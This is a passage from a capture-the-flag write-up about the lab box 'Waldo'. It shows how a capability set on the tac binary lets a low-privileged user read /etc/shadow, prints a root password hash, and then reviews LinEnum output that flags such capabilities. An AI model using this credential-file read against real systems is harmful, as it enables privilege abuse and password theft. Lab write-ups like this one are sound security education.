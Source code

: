 If I wanted to read other files with more than one line, just `tac` twice:

```

monitor@waldo:/$ tac /etc/shadow | tac
root:$6$tRIbOmog$v7fPb8FKIT0QryKrm7RstojMs.ZXi4xxHz2Uix9lsw52eWtsURc9dwWMOyt4Gpd6QLtVtDnU1NO5KE5gF48r8.:17654:0:99999:7:::
daemon:*:17653:0:99999:7:::
bin:*:17653:0:99999:7:::
sys:*:17653:0:99999:7:::
sync:*:17653:0:99999:7:::
...[snip]...

```

## No root Shell

I couldn’t find any way to turn this into a root shell, and in conversations with the author, that’s the intention for the box. My primary focus was on exploiting `logMonitor-0.1`, but couldn’t get anything to work.

## Beyond Root: Lin Enum Updates Based on Waldo

When this box was released, I ran `LinEnum.sh` on the box as monitor trying to get to root. Nothing much jumped out at me. But when I run it today, I see this section:

```

[+] Files with POSIX capabilities set:
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei

[+] Users with specific POSIX capabilities:
cap_dac_read_search monitor

[+] Capabilities associated with the current user:
cap_dac_read_search

[+] Files with the same capabilities associated with the current user (You may want to try abusing those capabilities):
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei

[+] Permissions of files with the same capabilities associated with the current user:
-rwxr-xr-x 1 root root 39752 Feb 22  2017 /usr/bin/tac
-r-xr-x--- 1 app-dev monitor 13706 May  3  2018 /home/monitor/app-dev/v0.1/logMonitor-0.1

```

Did I really miss this at the time? Or was it recently added?

So I jumped over to the GitHub for [LinEnum](https://github.com/rebootuser/LinEnum), and clicked on `LinEnum.sh` to open the code. A quick ctrl-f later, I found the code that checks, at lines [1173-1245](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh#L1173).
